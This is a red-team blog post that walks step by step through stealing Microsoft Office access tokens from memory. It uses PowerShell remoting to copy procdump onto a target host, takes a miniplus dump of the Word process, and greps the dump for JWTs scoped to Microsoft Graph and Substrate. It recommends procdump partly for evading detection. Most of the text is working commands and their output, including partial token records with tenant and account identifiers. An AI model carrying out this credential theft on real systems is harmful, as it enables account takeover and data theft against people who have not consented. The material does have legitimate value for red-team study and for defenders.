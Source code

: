 ```yaml
---
title: Stealing office tokens in memory
date: 2023-01-12 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Stealing Microsoft office tokens in memory
#thumbnail: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
#image: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
---
```


Let us look into stealing office tokens present in memory on a host for a target pricipal. 

To simulate an Office login on the host using the a target user, a Macro command executing tool such as MacroRecorder was used to automate the log in process: https://www.macrorecorder.com/

```
& 'C:\Program Files (x86)\MacroRecorder\MacroRecorder.exe' -play=C:C:\Users\Administrator\Desktop\macro.mrf
```

Attempting to analyze and search for office tokens (`eyJ0eX`) using Process Hacker 2 after a valid login,  consistent results after a user simulation action are observed:

![](Pasted%20image%2020230925124733.png)

However when performing a minidump of the process and then looking for this string results were inconsistent, this is primarily because minidumps using say procdump do not include Private mapped regions. As an alternative we can perform a Full process memory dump or alternative dumps that can dump private mapped regions too.

To do so we can use a tool such as [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) as it is a trusted signed tool to evade detections.

After performing various procdump dumps with the working MacroRecorder simulation for the HTTPS interception part and looking for tokens with the string `eyJ0eX` the following results were observed:

**Perform a standard minidump (default)**: `-mm`
- Credentials: Rarely found
- Size: ~50mb

**Performing a full process dump**: `-ma `
- Credentials: Found always
- Size: ~650mb

**Performing miniplus dump**: `-mp` (preferred)
- Credentials: Found always, similar to full process dump 
- Size: ~95mb

Now, create a PSRemote session on the target as in objective and transfer procdump.

```
PS C:\> $session = New-PSSession -cn WIN-JH5F00D8313.nerd.corp

PS C:\> Copy-Item C:\Tools\procdump.exe -Destination C:\Users\public\ -ToSession $session -recurse
```

An example to perform a miniplus dump using procdump is as follows:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> tasklist /v | findstr /i winword
WINWORD.EXE                   3396 RDP-Tcp#0                  2    196,988 K Running         EC2AMAZ-2LLTT7D\Administrator                           0:00:05 Document1  -  AutoRecovered  -  Compatibility Mode - Word

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> .\procdump.exe -mp 3396

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:05:01] Dump 1 initiated: C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_230925_070501.dmp
[07:05:02] Dump 1 complete: 97 MB written in 0.5 seconds
[07:05:02] Dump count reached.
```

We can then search for office tokens by looking for the string `eyJ0eX` using the `select-string` commandlet in PowerShell or Microsofts [strings64](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) tool:

Using `select-string` in PowerShell (preferred) we look for a token with `graph.microsoft.com` and `outlook.office365.com`. In this case first for `graph.microsoft.com`

*Regex NOTE:
. is escaped as \. because . is a special character in regular expressions and we want to match a literal dot.
.\*? matches any characters (including spaces) in between "graph.microsoft.com" and "eyJ0eX" on the same line.*

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_070025.dmp -Pattern "graph\.microsoft\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken | out-file -append -encoding ascii graphtoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc graphtoken.out
[....snip...]
https://graph.microsoft.com//Users.Read":{"cachedl`�#4◄�15.0000ft Office Word2292ab01c","
credential_type":"AccessToken","environment":"login.windows.net","expires_on":"1695710790","extended_expires_on":"16956
24392","family_id":"","home_account_id":"52f19b5b-0567-4043-8ffe-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","ki
d":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oo
b","refresh_on":"0","requested_claims":"{\"access_token\":{\"xms_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOi[...snip...]","session_key":"","session_key_rolling_date":"0","target":"email

[...snip...]
```

Copy and decode the token at `https://jwt.io/` as follows:

![](Pasted%20image%2020231003124256.png)

Similarly, here's an example for `substrate.office.com`:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_151238.dmp -Pattern "substrate\.office\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken | out-file -append -encoding ascii substratetoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc substratetoken.out

https://substrate.office.com/User.Read https://substrate.office.com/UnifiedPolicy.User.Read
https://substrate.office.com/user_impersonation https://substrate.office.com/User-Internal.Read":{"cached_at":"16956244
01","client_id":"d3590ed6-52b3-4102-aeff-aad2292ab01c","credential_type":"AccessToken","environment":"login.windows.net
","expires_on":"1695724282","extended_expires_on":"1695624401","family_id":"","home_account_id":"52f19b5b-0567-4043-8ff
e-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","kid":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5
b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oob","refresh_on":"0","requested_claims":"{\"access_token\":{\"xm
s_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOiJKV1QiLCJub[...snip...]
QlmDfx5owE3HTj_rmkOxTXFjDNkbWm1zFouA","session_key":"","session_key_rolling_date":"0","target":"https://substrate.offic
e.com/Collab-Internal.Write https://substrate.office.com/Notes.ReadWrite
```

## References

https://mrd0x.com/stealing-tokens-from-office-applications/
